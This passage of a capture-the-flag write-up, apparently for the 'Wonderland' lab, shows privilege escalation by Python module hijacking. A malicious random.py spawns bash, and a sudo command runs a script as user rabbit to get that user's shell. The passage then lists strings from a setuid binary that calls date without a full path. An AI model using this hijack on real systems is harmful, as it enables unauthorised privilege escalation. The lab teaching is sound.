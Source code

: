Based on this, we found that the `random` module can be `Hijacked`, let's do the following to get a shell as `rabbit`:

1. Create a malicious `random.py` module:

```python
import os
os.system('/bin/bash')
```

2. Hijack the script and gain the shell as `rabbit`:

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250410173359.png)

Nice, we were able to get the shell as `rabbit`, if we check the home of this user, we can find this:

```
rabbit@wonderland:/home/rabbit$ ls
teaParty
```

We got a binary called `teaParty`, if we check the strings of the binary, we can find this:

```bash
strings teaParty
/lib64/ld-linux-x86-64.so.2
2U~4
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7325
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
teaParty.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
```